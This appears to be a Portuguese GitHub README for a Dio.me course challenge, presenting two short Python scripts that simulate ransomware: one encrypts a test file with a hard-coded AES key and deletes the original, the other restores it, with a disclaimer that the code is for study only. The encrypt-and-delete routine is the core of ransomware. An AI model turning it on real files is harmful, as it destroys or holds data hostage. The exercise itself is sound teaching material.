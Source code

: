 # projeto_ransomware


🔐 Desafio Ransomware – Dio.me

Este projeto foi desenvolvido como parte de um **desafio prático da Dio.me**, simulando o funcionamento de um **processo simples de encriptação e decriptação de arquivos** para fins de estudo.

⚠️ Aviso:  
Este código é apenas para fins educacionais e de teste.  
Não utilize em ambientes reais nem para fins maliciosos.

______

📂 Arquivos principais
- encrypter.py → Responsável por encriptar o arquivo alvo.  
- decrypter.py → Responsável por descriptografar o arquivo encriptado, retornando-o ao formato legível.

______

▶️ Funcionamento do `encrypter.py`

import os
import pyaes

  #Abrir o arquivo a ser criptografado
file_name = "arquivo.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

  #Remover o arquivo original
os.remove(file_name)

  #Definir chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

  #Criptografar o arquivo
crypto_data = aes.encrypt(file_data)

  #Salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()



▶️ Funcionamento do decrypter.py

import os
import pyaes

  #Abrir o arquivo criptografado
file_name = "arquivo.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

  #Definir chave de descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

  #Remover o arquivo criptografado
os.remove(file_name)

  #Criar o arquivo decriptado (legível novamente)
new_file = "arquivo.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()


⚙️ Como usar

Crie um arquivo de teste chamado arquivo.txt no diretório do projeto.

Execute o encriptador:
python encrypter.py      #Isso removerá o arquivo original e criará arquivo.txt.ransomwaretroll

Para recuperar o arquivo, execute:
python decrypter.py      #O arquivo original arquivo.txt será restaurado.
